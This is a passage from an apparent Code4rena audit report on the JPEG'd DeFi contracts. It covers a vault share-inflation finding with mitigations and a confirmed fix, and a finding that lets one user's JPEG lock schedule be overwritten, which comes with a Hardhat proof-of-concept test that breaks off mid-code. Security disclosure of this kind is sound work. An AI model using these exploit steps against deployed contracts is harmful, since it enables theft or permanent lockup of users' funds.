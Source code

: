 ```jsx
  // user1 withdraws both his and owner's deposits
  // total amt: 20k + 1 wei
  await expect(() => yVault.connect(user1).withdrawAll())
    .to.changeTokenBalance(token, user1, depositAmount.mul(2).add(1));
});
```

### Recommended Mitigation Steps

*   [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
*   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`

**[spaghettieth (JPEG'd) confirmed, but disagreed with High severity](https://github.com/code-423n4/2022-04-jpegd-findings/issues/12)**

**[spaghettieth (JPEG'd) resolved and commented](https://github.com/code-423n4/2022-04-jpegd-findings/issues/12#issuecomment-1099249025):**
 > Fixed in [jpegd/core#16](https://github.com/jpegd/core/pull/16).



***

## [[H-02] Existing user’s locked JPEG could be overwritten by new user, causing permanent loss of JPEG funds](https://github.com/code-423n4/2022-04-jpegd-findings/issues/10)
_Submitted by hickuphh3, also found by 0x1f8b, AuditsAreUS, Foundation, Kthere, Meta0xNull, rayn, and WatchPug_

[NFTVault.sol#L375](https://github.com/code-423n4/2022-04-jpegd/blob/main/contracts/vaults/NFTVault.sol#L375)<br>
[JPEGLock.sol#L54-L62](https://github.com/code-423n4/2022-04-jpegd/blob/main/contracts/lock/JPEGLock.sol#L54-L62)<br>

A user’s JPEG lock schedule can be overwritten by another user’s if he (the other user) submits and finalizes a proposal to change the same NFT index’s value.

The existing user will be unable to withdraw his locked JPEGs, resulting in permanent lock up of JPEG in the locker contract.

### Proof of Concept

1.  `user` successfully proposes and finalizes a proposal to change his NFT’s collateral value
2.  Another user (`owner`) does the same for the same NFT index
3.  `user` will be unable to withdraw his locked JPEG because schedule has been overwritten

Insert this test case into [`NFTVault.ts`](https://github.com/code-423n4/2022-04-jpegd/blob/main/tests/NFTVault.ts).

```jsx
it.only("will overwrite existing user's JPEG lock schedule", async () => {
  // 0. setup
  const index = 7000;
  await erc721.mint(user.address, index);
  await nftVault
    .connect(dao)
    .setPendingNFTValueETH(index, units(50));
  await jpeg.transfer(user.address, units(150000));
  await jpeg.connect(user).approve(locker.address, units(500000));
  await jpeg.connect(owner).approve(locker.address, units(500000));

  // 1. user has JPEG locked for finalization
  await nftVault.connect(user).finalizePendingNFTValueETH(index);
```